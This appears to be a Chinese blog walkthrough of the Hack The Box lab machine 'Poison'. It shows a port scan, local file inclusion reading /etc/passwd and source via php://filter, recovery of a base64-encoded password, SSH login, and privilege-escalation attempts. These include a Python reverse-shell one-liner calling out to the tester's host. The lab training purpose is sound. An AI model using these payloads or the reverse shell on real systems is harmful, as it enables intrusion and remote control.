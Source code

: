 ```yaml
---
categories:
- training
tags: 
    - training
---
```


#### 1. 端口扫描
ip: 10.10.10.84
>22/tcp   open  ssh
80/tcp   open  http
5802/tcp open  vnc-http-2
5902/tcp open  vnc-2
5903/tcp open  vnc-3
6002/tcp open  X11:2
6003/tcp open  X11:3

嗯，确认是linux系统
#### 2. web探测

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/2.PNG)
一看到浏览器上的URL：`file=xxx`，就富有职业精神的输入`../../../../../etc/passwd`

![啊哈~一个文件包含](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3.PNG)

> Info1——机器上普通用户名称:
 hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh

运行：`http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=config.php`

>Info2——文件路径：
Warning: include(php://filter/convert.base64-encode/resource=config.php): failed to open stream: operation failed in /usr/local/www/apache24/data/browse.php on line 2
Warning: include(): Failed opening 'php://filter/convert.base64-encode/resource=config.php' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2

于是用php协议，访问browse.php，用hackbar解码一下。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4.PNG)
本来想用dirbuster扫描下存在的文件，再用文件包括去查看敏感文件。。。
但是，这个实验中，主页面上有一个listfiles.php，访问以后，直接指出了一个pwdbackup.txt。

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/5.PNG)
上面说这个密码很安全，它被加密了13次。真的还能出什么问题。
然后我一看，我去，base64编码还好意思说安全，加密13次又有什么意义吗？
我还是太菜，手动把密文的\n去掉，然后再解码，很多次解码后，密码为：`Charix!2#4%6&8(0`

方法二：
sed -i 's/\n//g' pwdbackup.txt
>Info3——口令
Charix!2#4%6&8(0

- Trying:
`ssh charix@10.10.10.84`

charix/Charix!2#4%6&8(0
**ssh登陆成功**
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/6.PNG)

#### **3.提权**

/home/charix目录下有三个文件，一个flag；一个secret，是空文件；还有一个secret.zip。
那么需要解压一下，tar -zxvf secret.zip
提示`x secretEnter passphrase:`
那么需要输入密码，然后尝试错误密码，会反复提示`Enter passphrase`。
通过Info3口令，成功解压。
解压后是secret文件，类型为：`secret: Non-ISO extended-ASCII text, with no line terminators`

用cat secret，显示为乱码。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/7.PNG)

![vi secret](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/8.png)

- sudo、gcc----------->command not found
- su             ------> Sorry
- uname -a查看内核版本，应该不是内核漏洞提权。
```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```
- `nc -l 999` -------> nc: Permission denied

- Trying（SUID提权，[参考](https://pentestlab.blog/tag/find/)）。
`find / -user root -perm -4000 -exec ls -ldb {} \;`
执行结果中，没有namp、vim、find等等可以提权的程序。

有意思的是，在连接过程中，ssh命令面板突然不灵了，无法输入任何命令。
重新连进去以后，我的readme.txt多了一行。。。看来遇到同道中人了。

- Trying：测试nc，用服务端连接kali。成功连接。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%202.PNG)

不是吧。。又连不上了，第一次遇到被人挤下线。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%203.PNG)

查看一下进程这些都是远程连进来的。。。
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%204.PNG)

- Trying：太卡了，弹一个python shell。
本地：`nc -lvp 1234`
服务器：`python ‐c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","‐i"]);'`

- Trying :
 python -m SimpleHTTPServer 888
```
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
 。。。此处省略几十行
socket.error: [Errno 13] Permission denied
```
- Trying：

![找到网站所在目录](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%89%BE%E5%88%B0%E7%BD%91%E7%AB%99%E6%89%80%E5%9C%A8%E7%9B%AE%E5%BD%95.png)

![3权限不够](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/3%E6%9D%83%E9%99%90%E4%B8%8D%E5%A4%9F.png)

- Trying:
尝试vnc远程命令执行
![查看开放端口](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/9.PNG)

![netstat](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/4netstat.PNG)

![尝试vnc远程命令执行](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/%E6%8D%95%E8%8E%B7%205.PNG)

use exploit/multi/vnc/vnc_keyboard_exec
set RHOST
set PASSWORD
set RPORT

试了好多密码，包括里面secret文件。失败

#### 2018.9.28.总结
[writeup参考](http://www.hackingarticles.in/hack-the-box-poison-walkthrough/)

[SSH原理与运用（二）：远程操作与端口转发](http://www.ruanyifeng.com/blog/2011/12/ssh_port_forwarding.html)
![01](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0928/01.PNG)

**通过绑定本地和远程的端口，就可以用vncviewer命令，使用密钥，开启vnc窗口**
vncviewer  -passwd secret  127.0.0.1:5901


